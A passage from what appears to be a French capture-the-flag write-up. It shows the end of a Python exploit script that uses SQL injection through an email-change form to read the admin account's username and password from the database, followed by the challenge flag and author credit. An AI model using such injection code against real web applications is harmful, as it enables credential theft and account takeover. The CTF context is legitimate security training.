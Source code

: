 ```python
    r = s.post(page, data=data)
    if "Votre nouvelle email" in r.text:
        print("[+] Injection effectuée")
    ## Reconnect user to reload question
    s = login(user)
    page = f"{HOST}index.php?page=changemail"
    r = s.get(page).text
    question =r.split('Question Secrete :')[1].split('<td style="width:150px">')[1].split('</td>')[0]
    return question  # Query result

#
if __name__ == "__main__":
    user = get_random_string(12)
    create_user(user)
    username = query(user, "SELECT account FROM accounts WHERE guid=1")
    print(f"[+] Got username \"{username}\"")
    pwd = query(user, "SELECT pass FROM accounts WHERE guid=1")
    print(f"[+] Got password \"{pwd}\"")
    print(f"\n--- Connect as {username}:{pwd} and get the flag in /home/{username}")
```

#### Flag

`BZHCTF{CodeAudioNoNoob}`

Auteur: [Zeecka](https://twitter.com/zeecka_)
